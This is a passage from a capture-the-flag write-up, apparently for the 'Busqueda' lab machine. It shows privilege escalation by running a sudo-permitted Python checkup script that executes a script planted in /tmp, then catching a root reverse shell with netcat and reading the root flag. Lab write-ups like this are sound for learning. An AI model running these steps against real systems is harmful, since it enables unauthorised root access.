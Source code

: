 Lastly, we will execute ```/opt/scripts/system-checkup.py``` to spwan our reverse shell connection from ```/tmp``` directory

```
svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

# Obtaining root flag

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.208] 41164
root@busqueda:/tmp# cat /root/root.txt
cat /root/root.txt
<root flag>
```
